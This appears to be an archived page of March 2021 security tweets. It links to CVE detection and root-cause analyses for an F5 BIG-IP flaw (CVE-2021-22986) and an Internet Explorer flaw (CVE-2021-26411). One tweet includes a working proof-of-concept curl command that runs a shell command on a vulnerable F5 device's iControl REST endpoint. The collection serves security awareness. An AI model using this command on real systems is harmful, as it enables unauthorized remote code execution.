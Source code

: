 * https://research.nccgroup.com/2021/03/18/rift-detection-capabilities-for-recent-f5-big-ip-big-iq-icontrol-rest-api-vulnerabilities-cve-2021-22986/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1372543655110610946 _at 2021-03-18, 13:41:22_**
<blockquote>
Root cause analysis for CVE-2021-26411, the IE MSHTML use-after-free/double free vulnerability:

https://t.co/lk7eN6dEh2
</blockquote>

* https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2021/CVE-2021-26411.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1372392693989445635 _at 2021-03-18, 03:41:30_**
<blockquote>
F5 BIG-IP iControl RCE (CVE-2021-22986)

execute arbitrary system commands
create or delete files
disable services

PoC #1
curl -su admin: -H "Content-Type: application/json" http://[victimIP]/mgmt/tm/util/bash -d '{"command":"run","utilCmdArgs":"-c id"}'

https://t.co/6i3IYFeHt5 https://t.co/yzD1k3ClTF
</blockquote>

* https://attackerkb.com/topics/J6pWeg5saG/k03009991-icontrol-rest-unauthenticated-remote-command-execution-vulnerability-cve-2021-22986

<table><tr>
<td><img src="pictures/a9eaa2604517bae9a862e738d29bf65a132da8854f81b5df735fceb77e1d9992.jpg" alt="a9eaa2604517bae9a862e738d29bf65a132da8854f81b5df735fceb77e1d9992.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>30</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>387</code></td>
<td>Favorites: <code>789</code></td>